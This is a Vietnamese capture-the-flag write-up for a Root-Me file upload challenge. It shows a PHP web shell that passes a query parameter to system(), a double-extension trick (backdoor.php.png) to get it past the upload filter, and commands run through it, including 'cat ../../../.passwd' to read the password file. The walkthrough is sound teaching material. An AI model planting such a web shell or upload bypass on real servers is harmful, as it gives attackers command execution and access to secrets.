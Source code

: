 # File upload - Double extensions

[Link](http://challenge01.root-me.org/web-serveur/ch20/)

![1](image/1.png)

- Mở đầu trang là 1 đống page nhỏ lẻ, thôi thì đề nói là `File upload` nên qua page `upload` coi thôi :v

![2](image/2.png)

![3](image/3.png)

- Có 1 **form upload file** ở đây, thử upload lên 1 file ảnh bình thường mà đề cho phép thử xem

![4](image/4.png)

- Upload hoạt động tốt, còn cho ta cả link để file ảnh để đâu luôn

- Thử viết 1 file `backdoor.php` rồi cố gắng gửi lên server xem sao:

```
<?php
    $flag = $_GET['flag'];
    system("$flag");
?>
``` 

- Tạo 1 file `backdoor.php` đơn giản như vậy là đủ. Biến `$flag` nhận query từ link dựa vào hàm `$_GET['flag']`, hàm `system` thực thi nó

- Đề đã viết rõ là **Double extensions**, thì bây giờ làm theo đề thôi. Thêm 1 extensions hợp vào file `backdoor.php` thành `backdoor.php.png`

- Đọc thêm về kỹ thuật **Double extensions** và các kỹ thuật khác: [Link](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- Thử up file `backdoor.php.png` lên server và thành công như mong đợi

![5](image/5.png)

![6](image/6.png)

- Vấn đề là bây giờ có thể **injection** câu lệnh vào server thông qua file `backdoor.php.png` mới gửi lên được không. Thư với lệnh đơn giản xem nào
`?flag=id`

![7](image/7.png)

- Thành công mỹ mãn. OK, hint đề cho là:

```
Your goal is to hack this photo galery by uploading PHP code.
Retrieve the validation password in the file .passwd at the root of the application.
```

- Ta đã thành công bước đầu, bước sau đề nói rằng **password** nằm trong file `.passwd`

- Thử `cat .passwd` hoặc `cat ../.passwd` hoặc ... xem nào. Cuối cùng cũng thành công với payload:

```
cat ../../../.passwd
```

![8](image/8.png)


